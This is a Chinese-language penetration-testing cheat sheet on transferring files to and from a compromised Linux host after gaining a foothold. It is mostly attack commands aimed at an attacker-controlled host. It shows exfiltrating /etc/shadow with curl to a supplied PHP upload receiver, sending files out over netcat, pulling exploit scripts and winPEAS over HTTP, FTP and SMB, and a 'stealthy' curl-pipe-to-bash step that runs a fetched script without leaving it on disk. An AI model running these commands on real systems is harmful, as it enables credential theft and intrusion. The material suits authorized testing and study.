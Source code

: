 ```yaml
---
description: 在目标系统中已经成功建立立足点后，需要传输一些脚本到目标系统中，以实现后续的提权操作
---
```


# ✔️ Linux文件传输 - Linux File Transfers

## 常规方式

### 利用Python传输：

```bash
// Attacker
python3 -m http.server 8888
```

```bash
// Target
wget http://攻方IP:8888/利用脚本.sh
chmod +x 利用脚本.sh
利用脚本.sh
```

### 利用Apache2传输：

```
// Attacker
1. 准备好upload.php文件，放在/var/www/html目录下；
2. 同时在/var/www/html目录下再创建一个/uploads目录，用于存放稍后从目标系统中传回的敏感文件；
```

```bash
// Target
curl --form "uploadedfile=@/etc/shadow" http://攻方IP/upload.php
```

```php
// upload.php
<?php  
$target_path = "uploads/";
$target_path = $target_path.basename($_FILES['uploadedfile']['name']);

echo "Source=".$_FILES['uploadedfile']['name']."<br/>";
echo "Target path=".$target_path."<br/>";
echo "Size=".$_FILES['uploadedfile']['size']."<br/>";

if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)){
	echo "The file".basename($_FILES['uploadedfile']['name'])."has been uploaded";
}else{
	echo "There was an error uploading the file,please try again!"
}

?>
```

### 利用Netcat传输

```bash
// Attacker
nc -lvp 1234 > 传回的文件名 
```

```bash
// Target
nc 攻方IP 1234 < 待传回的文件名
```

### 利用FTP传输

```bash
// Attacker
sudo python3 -m pyftpdlib  -p 21 -w
python -m pyftpdlib -p 21
```

```bash
// Target
ftp -A 攻方IP
dir               # 查找要传到目标上的程序，本例为：winPEAS.exe
get winPEAS.exe
bye
```

### 利用SCP传输

使用 SCP（Secure Copy Protocol）在 Linux 系统中进行文件传输时，实际上是在通过 SSH 连接进行加密传输。

```bash
// 格式
scp 待传输文件的路径 目标用户命@目标IP:传输后保存的路径
scp /path/to/local/file username@remote_host:/path/to/destination
```

#### 将文件上传到目标主机

```bash
// Attacker
scp example.txt username@remote_host:/home/username/
scp /path/to/local/file username@remote_host:/path/to/destination
```

* `/path/to/local/file`：本地系统上要传输的文件的路径
* `username`：远程系统上的用户名
* `remote_host`：远程系统的主机名或 IP 地址
* `/path/to/destination`：远程系统上存储文件的目标路径

#### 将目标主机中的文件下载到本地

```bash
// Attacker
scp username@remote_host:/path/to/remote/file /path/to/local/destination
scp username@remote_host:/home/username/example.txt /path/to/local/destination
```

* `/path/to/local/file`：本地系统上要传输的文件的路径
* `username`：远程系统上的用户名
* `remote_host`：远程系统的主机名或 IP 地址
* `/path/to/destination`：远程系统上存储文件的目标路径

### SCP + SSH

若已经配置了 SSH 密钥认证，则可以免去输入密码的步骤。在执行 SCP 命令时，系统会自动使用 SSH 密钥进行认证。









### 利用SMB客户端传输

前提条件：**已安装smbclient**

```bash
// 格式：
smbclient //server_ip/share_name -U username
```

启动了一个 SMB 服务器，允许其他设备通过 SMB 协议与之通信，并在本地文件系统的当前目录下共享文件（本例为 "liodeus"）：

```bash
// Attacker
sudo smbserver.py -smb2support liodeus .
```

```bash
// Target
smbclient //攻方IP/liodeus -U 用户名
// 连接成功后，查找对应文件，并下载到目标本机中(本例为 "liodeus")：
ls
get liodeus
// 还可以从目标机器里上传文件到攻方SMB服务器：
put 文件名
quit
```



## 隐蔽方式

```bash
// Attacker
python3 -m http.server 8888
```

```
// Target
curl http://攻方IP:8888/利用脚本.sh | bash
```

MEMO：该利用脚本不会被保存在目标系统中
